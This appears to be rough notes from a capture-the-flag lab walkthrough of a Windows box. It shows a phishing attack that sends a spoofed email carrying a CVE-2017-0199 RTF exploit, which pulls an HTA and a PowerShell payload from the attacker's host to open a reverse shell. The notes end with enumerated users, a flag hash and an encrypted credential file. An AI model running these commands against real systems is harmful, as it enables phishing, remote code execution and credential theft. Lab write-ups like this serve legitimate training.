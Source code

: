 Now we to copy the scripts in reel folder

Now we have the rtf file that we have to send to someone that will contain the link to a HTA file that will than redirect them to a PowerShell


We will use a tool called send sendEmail to send the payload to nico.
![[Pasted image 20240510013451.png]]

We have fire up the file server as well as started the Netcat Listener.
```
sendEmail -f singh@megabank.com -t nico@megabank.com -u RTF -m "Please Convert This File" -a singh.rtf -s 10.10.10.77
```
![[Pasted image 20240510014134.png]]
We didn't got the shell as we are getting / so we have to solve this problem.

Will regenerate the CVE file
```
python cve-2017-0199_toolkit.py -M gen -w singh.rtf -u 'http://10.10.16.20/singh.hta' -t RTF -x 0
```

I don't know but will generate the file with the author name.

So we finally got the reverse shell
```
python cve-2017-0199_toolkit.py -M gen -w ippsec.rtf -u 'http://10.10.16.20/singh.hta' -t RTF -x 0

Out-HTA -PayloadURL http://10.10.16.20/ippsec.ps1

sendEmail -f ippsec@megabank.com -t nico@megabank.com -u RTF -m "Please Convert This File" -a ippsec.rtf -s 10.10.10.77
```
![[Pasted image 20240510123803.png]]

Users list
```
Administrator
brad
claire
herman
julia
nico
tom
```
![[Pasted image 20240510124414.png]]


```
4b8d7194bfebfe65816c924142390049
```
![[Pasted image 20240510124556.png]]

There is cred.xml file where the password is encrypted we have to find a way to decrypt it.
![[Pasted image 20240510124742.png]]
